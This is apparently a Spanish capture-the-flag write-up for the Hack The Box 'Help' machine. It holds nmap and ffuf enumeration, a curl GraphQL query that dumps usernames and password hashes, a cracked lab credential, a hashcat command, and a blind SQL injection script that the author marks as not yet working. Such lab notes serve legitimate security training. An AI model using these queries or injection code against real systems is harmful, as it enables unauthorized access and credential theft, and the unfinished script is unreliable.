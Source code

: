 # [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]
```shell
ping -c 1 10.10.10.121
nmap -p- --open -vvv -sS -Pn --min-rate 5000 -n 10.10.10.121 -oG allports
extractPorts allports
nmap -sVC -p22,80,3000 10.10.10.121 -oN target   
```

![[Help1.png]]

![[Help3.png]]
Nos muestra que esta el puerto 22 ssh abierto, el 80 de apache y el 3000 del servicio node.js

------------
# [[Enumeracion con pequeño script de NMAP y Whatweb-wappalyzer]]

```shell
nmap --script http-enum -p22,80,3000 10.10.10.121 -oN webScan    
whatweb http://10.10.10.121           
```

![[Help2.png]]
El script de nmap no dio ningun directorio y el whatweb nos informo que teniamos que agregar en el `/etc/hosts` el dominio de htb.help
![[Help 4.png]]

----
# [[FFUF]]

![[Help5.png]]
Al estar intentando enumerar a la pagina directamente no me daba ningun resultado, pero al intentar en help.htb arrojo el resultado del directorio `support`

![[Help6.png]]


curl -s -G http://help.htb:3000/graphql --data-urlencode 'query={user {username,password} }' | jq
*Parametros*
	`-G` Para hacer la peticion por GET
	`--data-urlencode` Envia la query urlencodeada
	`'query={user {username,password} }'` Pide que dumpee todos los usuarios y contraseñas
	`| jq` Muestra la respuesta en formato JSON

![[Help7.png]]
Nos da el usuario: helpme@helpme.com
Contraseña:  5d3c93182bb20f07b994a7f617e99cff                          |      Contraseña final: godhelpmeplz

##  [[Hashcat (Crackeo de contraseñas)]]
```shell
hashcat -a 0 -m 0 "5d3c93182bb20f07b994a7f617e99cff" /usr/share/wordlists/rockyou.txt
```
![[Help8.png]]

El exploit para dumpear los datos con sqli esta en proceso, todavia no sirve
```python
#!/usr/bin/env python3

from pwn import *
import requests, signal, sys, time, string

#------CTRL +C ------
def def_handler(sig, frame):
    print("\n\n[!]Saliendo..\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)
#-------------------

# Variables Globales
characters = string.ascii_lowercase + ":;.,-_" + string.ascii_uppercase + string.digits
main_url = "http://help.htb/support/?v=view_tickets&action=ticket&param%5B%5D=4&param%5B%5D=attachment&param%5B%5D=1&param%5B%5D=6"

def sqli():
    data = ""
    p1 = log.progress("SQLI")
    p1.status("Iniciando ataque de inyeccion SQL")
    time.sleep(1)
    p2 = log.progress("Data")

    for position in range(1, 500):
        for character in characters:
            sqli_url = main_url + f" and substring((select group_concat(schema_name) from information_schema.schemata),{position},1)='{character}'-- -"
            r = requests.get(sqli_url)

            if r.status_code != 400:
                data += character
                p2.status(data)
                break




if __name__ == '__main__':
    sqli()
```








# Notas
##### Node.js
Es un **entorno de ejecución de JavaScript en el servidor**. Permite usar JavaScript fuera del navegador para crear aplicaciones del lado del servidor, como servidores web, APIs, bots, etc.

##### Para desconectar la vpn de HTB
```shell
sudo killall openvpn
```

##### Grep
*Parametros*
`-n` Indica la linea en la que se encontro el resultado
# Creditos
Writeup oficial de HTB
